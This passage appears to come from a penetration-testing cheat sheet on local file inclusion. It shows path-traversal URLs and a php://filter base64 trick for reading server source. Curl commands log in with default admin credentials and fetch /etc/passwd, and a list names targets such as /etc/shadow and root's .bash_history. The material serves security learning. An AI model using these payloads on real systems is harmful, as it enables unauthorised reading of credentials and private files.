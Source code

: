 ```text
http://example.com/page=../../../../../../etc/passwd?
```

## Bypassing php-execution <a id="bypassing-php-execution"></a>

So if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.

```text
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

Here you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:

```text
base64 -d savefile.php
```

## Linux <a id="linux"></a>

### Tricks <a id="tricks"></a>

**Download config-files in a nice style-format**

If you read files straight in the browser the styling can becomes unbearable. Really difficult to read. A way around it is to download the files from the terminal. But that won't work if there is a login that is blocking it. So this is a great workaround:

```text
# First we save the cookie
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile
```

### Sensitive file <a id="sensitive-file"></a>

This is the default layout of important apache files.  
[https://wiki.apache.org/httpd/DistrosDefaultLayout](https://wiki.apache.org/httpd/DistrosDefaultLayout)

```text
/etc/issue (A message or system identification to be printed before the login prompt.)
/etc/motd (Message of the day banner content. Can contain information about the system owners or use of the system.)
/etc/passwd 
/etc/group 
/etc/resolv.conf (might be better than /etc/passwd for triggering IDS sigs)
/etc/shadow
/home/[USERNAME]/.bash_history or .profile
~/.bash_history or .profile
$USER/.bash_history or .profile
/root/.bash_history or .profile
```
